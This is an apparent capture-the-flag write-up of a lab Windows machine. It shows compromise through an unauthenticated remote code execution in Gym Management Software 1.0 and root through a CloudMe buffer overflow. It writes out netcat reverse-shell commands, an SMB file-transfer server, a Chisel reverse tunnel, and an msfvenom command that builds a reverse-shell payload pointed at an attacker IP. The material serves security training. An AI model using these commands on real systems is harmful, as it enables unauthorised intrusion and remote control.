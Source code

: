 ## TL;DR
![](images/tl;dr.png)
## Recon
#### Ping

![](images/Pasted%20image%2020240311165320.png)

We have a TTL of 127, which means it's likely a Windows machine.
#### Nmap
###### First 1000 TCP ports

![](images/Pasted%20image%2020240311165557.png)
###### Web Server on port 8080

![](images/Pasted%20image%2020240311165536.png)

## Enumeration

After enumerating every page on the website

![](images/Pasted%20image%2020240311173032.png)

We found this framework : "Gym Management Software 1.0" in the contact.php page
After some Googling, turns out it's vulnerable to an unauthenticated RCE
## Exploitation

Using the [PoC from exploit DB](https://www.exploit-db.com/exploits/48506) we could get a remote shell


![](images/Pasted%20image%2020240312005905.png)

after getting this non interactive shell, we have to transfer nc.exe in order to get a fully interactive shell, we use an smb share to get that done.

```plain
## On attacker host
mkdir /tmp/smbshare/
cp nc.exe /tmp/smbshare/
sudo impacket-smbserver share -smb2support /tmp/smbshare/ 

## On Windows victim machine
copy \\$IP\share\nc.exe
```

After successfully copying the file, we can open a netcat listener and get a shell 

```plain
#### On attacker host
nc -lvnp $PORT
#### On Windows victim 
.\nc.exe $IP $PORT -e cmd.Exe
```
![](images/Pasted%20image%2020240312013651.png)
#### User Flag

![](images/Pasted%20image%2020240312013821.png)

#### Root Flag

Enumerating every folder in shaun's home directory, i found this : 

 ![](images/Pasted%20image%2020240312152051.png)
 
 Which is a file storage service that offers cloud storage, file synchronization and client software.
 After some googling, turns out there's a buffer overflow vulnerability in this version 1.11.2
 ![](images/Pasted%20image%2020240312152220.png)

the PoC available for this exploit use Python, which is not installed on the victim windows machine, let's try and redirect the service back to our attacker machine 
Figuring out which prt it's using, i used netstat

![](images/Pasted%20image%2020240312153937.png)

It's using port 8888 (3306 is MySQL)
We could use SSH if we had credentials to shaun, but unfortunately we don't 

```bash
ssh -L 8888:127.0.0.1:8080 shaun@buff.htb 
```

Instead let's use a tool called [Chisel](https://github.com/jpillora/chisel) to create a tunnel
Just like before, we need to transfer the executable to the windows machine, we'll use the same smb share as before

```plain
#### On ATTACKER
./chisel server -p 8000 --reverse

#### On VICTIM
.\chisel.exe client 10.10.16.5:8000 R:8888:localhost:8888
```

![](images/Pasted%20image%2020240312233254.png)


After reading about the exploit, it's a buffer overflow, but we need to put in out own payload instead of the one in the [PoC found on exploit DB](https://www.exploit-db.com/exploits/48389)
Let's generate a payload using MSFVenom, a reverse tcp shell on port 1338

```shell
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.16.5 1338 -e powershell' -b '\x00\x0A\x0D' -f python

#### Note: Given the four-byte addresses and 
#### references to ESP and EIP (as opposed to RSP
#### and RIP), this is a 32-bit program.
```

![](images/Pasted%20image%2020240313000504.png)

![](images/Pasted%20image%2020240313000350.png)

Upon executing the script, we get a session as Administrator 
